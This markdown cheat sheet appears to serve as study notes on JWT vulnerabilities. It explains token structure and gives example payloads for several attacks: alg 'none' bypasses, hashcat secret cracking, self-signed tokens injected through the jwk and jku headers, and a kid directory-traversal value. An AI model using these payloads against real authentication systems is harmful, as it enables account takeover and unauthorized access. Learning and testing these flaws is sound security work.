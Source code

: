 # Content 
- [jwt structure](#jwt-structure)
- [Accepting arbitrary signatures](#accepting-arbitrary-signatures)
- [Accepting tokens with no signature](#accepting-tokens-with-no-signature)
- [Brute-forcing secret keys](#brute-forcing-secret-keys)
- [JWT header parameter injections](#jwt-header-parameter-injections)
  - [Injecting self-signed JWTs via the jwk parameter](#injecting-self-signed-jwts-via-the-jwk-parameter)
  - [Injecting self-signed JWTs via the jku parameter](#injecting-self-signed-jwts-via-the-jku-parameter)
  - [Injecting self-signed JWTs via the kid parameter](#injecting-self-signed-jwts-via-the-kid-parameter)
- [Algorithm confusion attacks](#algorithm-confusion-attacks)




## jwt structure
1) Header



| Header Parameter | Description                                             |
|------------------|---------------------------------------------------------|
| `alg`                        | Algorithm used for signing/verifying the token (e.g., HS256).     |
| `typ`                        | Type of the token (usually "JWT").                     |
| `cty`                        | Content Type, indicating the media type of the token.  |
| `kid` (Key ID)               | Key ID, used to identify the key for verification.      |
| `jwk` (JSON Web Key)         | Provides an embedded JSON object representing the key.                                |
| `jku` (JSON Web Key Set URL) | Provides a URL from which servers can fetch a set of keys containing the correct key. |



2) Payload
- Registered Claims


| Claim             | Description                                                |
|-------------------|------------------------------------------------------------|
| `iss` (Issuer)    | The entity that issued the JWT.                            |
| `sub` (Subject)   | The subject of the JWT, often a user ID.                   |
| `aud` (Audience)  | The intended audience for the JWT.                        |
| `exp` (Expiration) | The time after which the token should not be accepted.   |
| `nbf` (Not Before) | The time before which the token should not be accepted. |
| `iat` (Issued At) | The time at which the JWT was issued.                     |
| `jti` (JWT ID)     | A unique identifier for the token.                         |

- **Public claims:** are intended for use across different applications or by multiple parties.
- **Private Claims:** are specific to a particular application, organization, or use case, and their names are not required to follow standardized conventions.  

3) Signature


JWT token Example : 
```jwt
Header: {
  "alg": "HS256",
  "typ": "JWT"
}

Payload: {
  "iss": "example.com",
  "sub": "1234567890",
  "aud": "myapp",
  "exp": 1677648242,
  "nbf": 1677644642,
  "iat": 1677644642,
  "jti": "a1b2c3d4e5"
  // Custom claims:
  "username": "johndoe",
  "role": "admin"
}

Signature: (Generated using the HMAC-SHA256 algorithm)

```

## Accepting arbitrary signatures
- edit `sub` to another user ex:admin 
- sign the jwt token and send it

## Accepting tokens with no signature
- Setting the alg parameter to "none" is discouraged due to its inherent security risks. 
- Many servers reject unsigned tokens to prevent vulnerabilities. 
- This filtering is based on string parsing, making it possible to bypass such filters using obfuscation techniques like mixed capitalization and unexpected encodings.
```
None
none
NONE

```
## Brute-forcing secret keys
- [jwt secrets list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)
```shell
hashcat -a 0 -m 16500 <jwt> <wordlist> --show

=> <jwt>:<identified-secret>
```


# JWT header parameter injections
## Injecting self-signed JWTs via the jwk parameter
- servers should only use a limited whitelist of public keys to verify JWT signatures.
- misconfigured servers sometimes use any key that's embedded in the jwk parameter.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding the matching public key in the jwk header.

```json
{
    "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "28efc4b6-122a-41ae-9c22-f162a3f4266f",
        "n": "qFS9f6gM6Ez6GuNQPJEHfVnwKXE0B7kUIWs4DWigfKx2fNoi5_N72_y4r2OB2IZn0PFBswo1QFTAIVCHqwEMozN16yVWkoRIwzfVeXj7cpTlr7JpWVvbkiEM0SkMgAvP0Rm2wua7d79C5KIQy6kCD7u63Ma45i0EIxpBDqFK788"
    }
}
```
- `e`: The public exponent of the RSA key.
- `n`: The modulus of the RSA key.
- `kid` in the header matches the `kid` in the `jwk`

## Injecting self-signed JWTs via the jku parameter
- some servers let you use the jku (JWK Set URL) header parameter to reference a JWK Set containing the key.
- More secure websites will only fetch keys from trusted domains, but you can sometimes take advantage of URL parsing discrepancies to bypass this kind of filtering.
- You can exploit this behavior by signing a modified JWT using your own RSA private key, then embedding `jku` pointing to a url containing the public key (make sure the `kid` is the same at both).

example of exploit:
```json
{
    "jku": "https://exploit-0a97008704342d7880177f19017b0059.exploit-server.net/exploit.json",
    "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
    "alg": "RS256"
}
```


example of the file containing the keys :
```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "80ee234a-f38f-49f2-9608-7388e11db35e",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```
- JWK Sets like this are sometimes exposed publicly via a standard endpoint, such as `/.well-known/jwks.json`.

## Injecting self-signed JWTs via the kid parameter
- `kid` parameter may point to a particular entry in a database, or a name of a file
- If this parameter is also vulnerable to directory traversal, an attacker could potentially force the server to use an arbitrary file from its filesystem as the verification key.
  - if the server also supports JWTs signed using a **symmetric algorithm**.
  - point the `kid` parameter to a predictable, static file, EX: `/dev/null`
  - sign the JWT using a secret that matches the contents of this file.  
```json
{
    "kid": "../../path/to/file",
    "typ": "JWT",
    "alg": "HS256",
    "k": "asGsADas3421-dfh9DGN-AFDFDbasfd8-anfjkvc"
}
```
- the `kid` header parameter is also a potential vector for **SQL injection** attacks. 

## Algorithm confusion attacks
1) Obtain the server's public key
Servers sometimes expose their public keys as JSON Web Key (JWK) objects via a standard endpoint mapped to `/jwks.json` or `/.well-known/jwks.json`
2) Convert the public key to a suitable format
In order for the attack to work, the version of the key that you use to sign the JWT must be identical to the server's local copy. In addition to being in the same format, every single byte must match, including any non-printing characters. 
